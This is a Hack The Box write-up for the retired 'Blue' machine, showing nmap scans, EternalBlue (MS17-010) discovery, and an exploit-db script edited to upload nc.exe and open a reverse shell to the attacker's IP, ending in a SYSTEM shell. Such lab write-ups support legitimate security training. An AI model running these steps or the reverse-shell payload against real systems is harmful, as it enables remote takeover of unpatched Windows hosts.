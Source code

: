 ```yaml
---
layout: post
title: Hack the Box - Blue
date: 2020-03-13 16:04:22 +0100
description: Blue, while possibly the most simple machine on Hack The Box, demonstrates the severity of the EternalBlue exploit, which has been used in multiple large-scale ransomware and crypto-mining attacks since it was leaked publicly.
img: blue.png
fig-caption: Blue
tags: [Easy, Windows, Retired, CVE]
---
```

## Overview
Blue, while possibly the most simple machine on Hack The Box, demonstrates the severity of the EternalBlue exploit, which has been used in multiple large-scale ransomware and crypto-mining attacks since it was leaked publicly.
## Enumeration
```
┌──[10.10.14.27]-(calxus㉿calxus)-[~]
└─$ sudo nmap -p- -T4 -sV 10.129.112.220
Starting Nmap 7.91 ( https://nmap.org ) at 2021-03-13 18:53 GMT
Nmap scan report for 10.129.112.220
Host is up (0.094s latency).
Not shown: 65526 closed ports
PORT      STATE SERVICE      VERSION
135/tcp   open  msrpc        Microsoft Windows RPC
139/tcp   open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds Windows 7 Professional 7601 Service Pack 1 microsoft-ds (workgroup: WORKGROUP)
49152/tcp open  msrpc        Microsoft Windows RPC
49153/tcp open  msrpc        Microsoft Windows RPC
49154/tcp open  msrpc        Microsoft Windows RPC
49155/tcp open  msrpc        Microsoft Windows RPC
49156/tcp open  msrpc        Microsoft Windows RPC
49157/tcp open  msrpc        Microsoft Windows RPC
```
From this we can see that the ports of most interest are 135,139,445. Before attempting to scan shares that might be accessible anonymously a quick vulnerability scan shows that the server is vulnerable to MS17-010, otherwise known as EternalBlue. With the box being named Blue it is safe to assume this is a sensible attack vector.
```
┌──[10.10.14.27]-(calxus㉿calxus)-[~]
└─$ sudo nmap -p139,445 --script vuln 10.129.112.225                                                                                                                                                                                   130 ⨯
Starting Nmap 7.91 ( https://nmap.org ) at 2021-03-13 19:36 GMT
Nmap scan report for 10.129.112.225
Host is up (0.016s latency).

PORT    STATE SERVICE
139/tcp open  netbios-ssn
445/tcp open  microsoft-ds

Host script results:
|_smb-vuln-ms10-054: false
|_smb-vuln-ms10-061: NT_STATUS_OBJECT_NAME_NOT_FOUND
| smb-vuln-ms17-010: 
|   VULNERABLE:
|   Remote Code Execution vulnerability in Microsoft SMBv1 servers (ms17-010)
|     State: VULNERABLE
|     IDs:  CVE:CVE-2017-0143
|     Risk factor: HIGH
|       A critical remote code execution vulnerability exists in Microsoft SMBv1
|        servers (ms17-010).
|           
|     Disclosure date: 2017-03-14
|     References:
|       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-0143
|       https://technet.microsoft.com/en-us/library/security/ms17-010.aspx
|_      https://blogs.technet.microsoft.com/msrc/2017/05/12/customer-guidance-for-wannacrypt-attacks/
```
Having identified a route forward lets move on to the exploitation phase.
## Foothold
Search on exploitdb for an exploit for this vulnerability we find three to choose from.
```
┌──[10.10.14.27]-(calxus㉿calxus)-[~]
└─$ searchsploit eternalblue
----------------------------------------------------------------- --------------------------------
 Exploit Title                                                   |  Path
----------------------------------------------------------------- --------------------------------
Microsoft Windows 7/2008 R2 - 'EternalBlue' SMB Remote Code Ex   | windows/remote/42031.py
Microsoft Windows 7/8.1/2008 R2/2012 R2/2016 R2 - 'EternalBlue'  | windows/remote/42315.py
Microsoft Windows 8/8.1/2012 R2 (x64) - 'EternalBlue' SMB Remote | windows_x86-64/remote/42030.py
----------------------------------------------------------------- --------------------------------
```
I chose to go with 42315, however it was written in Python 2.7 so to run this on my Kali instance with the least trouble I chose to use a docker container to run it inside.
```
┌──[10.10.14.27]-(calxus㉿calxus)-[~]
└─$ sudo docker run -it -v "$(pwd)"/hackthebox/blue:/blue --entrypoint /bin/bash python:2.7.18-stretch
root@79a4e2b0be9a:/# pip install impacket
```
The exploit needs a couple of edits in order to produce a shell. First of all the username needs to be provided which in this case would be "anonymous". Secondly we need to edit the lines in the function "smb_pwn" to execute a reverse shell.
```python
#       print('creating file c:\\pwned.txt on the target')
#       tid2 = smbConn.connectTree('C$')
#       fid2 = smbConn.createFile(tid2, '/pwned.txt')
#       smbConn.closeFile(tid2, fid2)
#       smbConn.disconnectTree(tid2)

        smb_send_file(smbConn, 'nc.exe', 'C', '/nc.exe')
        service_exec(conn, r'cmd /c c:\nc.exe -nv 10.10.14.27 2121 -e cmd.exe')
```
After running this exploit using the following command our netcat listener should receive a shell if it is listening on the same port.
```
root@79a4e2b0be9a:/blue# python blue.py 10.129.112.225
Target OS: Windows 7 Professional 7601 Service Pack 1
Using named pipe: samr
Target is 64 bit
Got frag size: 0x10
...
Creating service ANJU.....
Starting service ANJU.....
```
```
┌──[10.10.14.27]-(calxus㉿calxus)-[~/hackthebox/blue]
└─$ nc -nlvp 2121
listening on [any] 2121 ...
connect to [10.10.14.27] from (UNKNOWN) [10.129.112.225] 49159
Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\Users\Administrator\Desktop>whoami
whoami
nt authority\system
```
## Privilege Escalation
As we attained root from this exploit and have access to the root flag, there is no need for privilege escalation.